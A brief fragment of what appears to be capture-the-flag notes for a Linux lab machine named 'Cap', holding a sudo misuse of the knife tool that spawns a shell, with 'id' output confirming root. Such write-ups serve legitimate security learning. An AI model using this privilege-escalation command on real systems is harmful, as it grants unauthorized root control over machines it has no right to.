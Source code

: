 ![](Maszyny/Linux/Cap/Pasted%20image%2020210728220510.png)

sudo knife exec -E 'exec "/bin/sh"'.
id
uid=0(root) gid=0(root) groups=0(root)
